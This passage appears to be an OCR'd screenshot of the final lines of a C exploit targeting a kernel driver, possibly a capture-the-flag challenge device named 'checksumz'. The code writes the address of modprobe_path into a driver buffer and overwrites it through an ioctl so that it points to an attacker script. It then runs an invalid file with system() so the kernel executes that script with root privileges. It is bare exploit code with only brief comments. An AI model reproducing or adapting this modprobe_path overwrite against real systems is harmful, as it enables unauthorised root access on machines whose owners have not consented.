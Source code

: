 ```c
    lseek(fds[0], 512 + 16, SEEK_SET);
    // write modprobe_path in buffer->name
    write(fds[0], &modprobe_path, sizeof modprobe_path);

    prepare_modprobe_files();

    // write to modprobe_path
    ioctl(fds[0], CHECKSUMZ_IOCTL_RENAME, EXPLOIT_SH);

    // execute invalid file that will trigger modprobe_path
    system(TRIGGER_SH);
} 
```
